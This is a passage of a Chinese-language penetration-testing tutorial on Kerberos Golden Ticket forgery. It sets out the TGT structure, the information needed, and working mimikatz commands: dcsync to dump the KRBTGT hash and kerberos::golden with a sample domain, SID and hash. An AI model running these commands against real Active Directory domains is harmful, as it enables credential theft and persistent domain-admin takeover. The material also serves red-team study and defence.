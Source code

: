 我们回到第三步：

```java
Authenticator = Logon Session Key{Stamp + Info(U)}
TGS_REQ = TGT + SPN + Authenticator
```

TGS_REQ由三部分构成，其中SPN，Authenticator都是Client可控的而TGT是Client所无法解密和控制的。

考虑一种场景，我们在之前的渗透中获得了域控权限，由于有些原因导致你对域管权限丢失，但好在你还有一个普通域用户权限，碰巧管理员在域内加固时忘记重置KRBTGT密码，那么此时我们可以伪造黄金票据来恢复我们的域管身份。

前面我们知道：

```java
TGT = Key-KDC{Logon Session Key + Info(U) + End time}
```

有了Key-KDC后我们可以伪造出一个完全合规的TGT，进而构造出合法的TGS_REQ来完成后续的完整流程。因此，伪造黄金票据（TGT）的影响是巨大的，可以绕过对任意用户的账号策略，让用户成为任意组的成员，可用于Kerberos认证的任何服务。

实战中一般采用mimikatz伪造黄金票据，伪造时需要知道以下信息：

```
1、域名称            
2、域的SID值
3、域的KRBTGT账户密码HASH
4、伪造用户名，可以是任意的
```

域名称可以通过以下命令获取：

```java
whoami
net time /domain
ipconfig /all
```

域SID可以通过`whoami /all `获取，得到的SID只有红框里的部分为域SID，后面的1110为该用户的RID（这里我们只需要域SID）

![image-20240328211717961](/blog_img/image-20240328211717961.png)

KRBTGT的密码HASH可以通过`mimikatz "lsadump::dcsync /domain:xxxx.com /user:krbtgt"`获取

至于用户名，之所以说可以是任意的，是当处于TGT有效期的前20min时，TGS并不会检验TGT中用户信息的真实性，默认相信TGT中的用户信息（哪怕用户被封禁甚至是不存在）。如果黑客在账号被锁定之前就已经获取了访问某一个服务的ST，则这张ST会一直有效，直到它的票面时间（一般是10h）过期为止。

生成票据文件：

```
kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi
```
